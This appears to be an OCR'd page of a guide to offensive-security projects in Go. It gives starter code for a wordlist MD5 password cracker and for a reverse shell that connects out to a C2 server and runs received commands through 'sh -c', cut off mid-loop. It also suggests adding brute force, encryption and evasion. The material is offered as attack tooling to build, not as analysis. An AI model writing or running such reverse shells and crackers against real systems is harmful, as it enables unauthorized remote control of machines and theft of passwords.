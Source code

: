 - **Example Starting Point**:

```go
	package main
    
    import (
        "crypto/md5"
        "encoding/hex"
        "fmt"
        "io/ioutil"
        "strings"
    )
    
    func main() {
        targetHash := "5f4dcc3b5aa765d61d8327deb882cf99" // Example MD5 hash for "password"
        wordlist, _ := ioutil.ReadFile("wordlist.txt")
        words := strings.Split(string(wordlist), "\n")
    
        for _, word := range words {
            hash := md5.Sum([]byte(word))
            if hex.EncodeToString(hash[:]) == targetHash {
                fmt.Printf("Password found: %s\n", word)
                return
            }
        }
        fmt.Println("Password not found in wordlist.")
    }
```

- **Next Steps**:
    - Add support for other hash algorithms (e.g., SHA-256, bcrypt).
    - Implement brute force attacks.
    - Use goroutines to speed up the cracking process.

---
### 3. **Custom Reverse Shell**

- **Why It's Easy**:
    - Go's `net` package makes it simple to create TCP connections, which is the core of a reverse shell.
    - You can start with a basic reverse shell and later add encryption or evasion techniques.

- **Core Features**:
    - Establish a TCP connection to a remote server.
    - Execute commands on the target system and send output back to the server.

- **Example Starting Point**:

```go
	package main
    
    import (
        "bufio"
        "fmt"
        "net"
        "os/exec"
    )
    
    func main() {
        conn, _ := net.Dial("tcp", "192.168.1.100:4444") // Replace with your C2 server IP and port
        for {
            message, _ := bufio.NewReader(conn).ReadString('\n')
            out, err := exec.Command("sh", "-c", message).Output()
            if err != nil {
                fmt.Fprintf(conn, "%s\n", err)
            }
```